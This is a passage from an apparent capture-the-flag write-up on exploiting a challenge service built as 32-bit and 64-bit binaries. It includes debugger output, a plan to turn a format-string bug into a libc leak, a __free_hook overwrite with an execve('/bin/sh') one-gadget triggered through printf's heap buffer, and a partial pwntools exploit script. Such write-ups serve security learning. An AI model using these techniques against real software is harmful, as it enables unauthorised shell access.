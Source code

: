 ```console
 ECX  0xa
 EDX  0xdead
 EDI  0x0
 ESI  0x56555b34 ◂— imul   ebp, dword ptr [esi + 0x76], 0x64696c61 /* 'invalid choice: %d\n' */
 EBP  0x0
 ESP  0xffffcc50 —▸ 0x56555c61 ◂— push   esp /* 'That sounds a bit risky...' */
 EIP  0x56555a03 (shake_hands+35) ◂— mov    eax, dword ptr [eax]
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────[ DISASM ]───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
 ► 0x56555a03 <shake_hands+35>    mov    eax, dword ptr [eax]
   0x56555a05 <shake_hands+37>    mov    dword ptr [esp + 4], eax
   0x56555a09 <shake_hands+41>    lea    eax, [ebx - 0x1440]
   0x56555a0f <shake_hands+47>    mov    dword ptr [esp], eax
   0x56555a12 <shake_hands+50>    call   printf@plt <0x56555520>

   0x56555a17 <shake_hands+55>    add    esp, 8
   0x56555a1a <shake_hands+58>    pop    ebx
   0x56555a1b <shake_hands+59>    ret
```

Ok, so the address is simply truncated to 32-bits, which makes sense.

Is there any way we can make the lower 32-bits of a 64-bit address valid in the
32-bit program? Note that the `wash_hands()` function does not free the
allocated memory, so we can allocate as much as we like. That way we can exploit
the 64-bit program while we are writing to random mapped memory in the 32-bit
process.

Our game plan is then to exploit the 64-bit process without crashing the 32-bit
one, and then moving on to exploiting that one while the other one is freezed.
We will start by writing an exploit for the 64-bit program, and when that works
without crashing the 32-bit process we can move on to exploiting that one.

Except for allocating a ton of memory, the exploitation steps are similar to a
normal exploit. We start by leaking a pointer that's inside the binary mapping
using the format string bug. Then we use the arbitrary read to leak the address
of `puts()` by reading the GOT entry. After we have the libc base address we
overwrite `__free_hook` with the address of the following one-gadget:
```
0x10a38c execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```
By testing we found that this gadget worked fine, while the others failed for
both `__malloc_hook` and `__free_hook`. But there are no calls to `free()` in
the binary! So how can we trigger the one-gadget then? We do have a call to
`printf()` where we control the format argument, so we can make `printf()`
allocate its output buffer on the heap if we provide a format specifier that's
very wide :) When `printf()` is done it will call `free()` on the buffer.

The exploit for the 64-bit binary looks like this:
```python
# leak binary address
order("%p")
leak = int(io.recvline()[:-1], 16)
log.info("leak: {:#x}".format(leak))
exe.address = leak - 0xd15
log.success("binary base: {:#x}".format(exe.address))

# read GOT entry of puts()
libc = ELF("libc-2.27.so")
puts = shake_hands(exe.got["puts"])
log.info("puts: {:#x}".format(puts))
libc.address = puts - libc.symbols["puts"]
log.success("libc base: {:#x}".format(libc.address))
```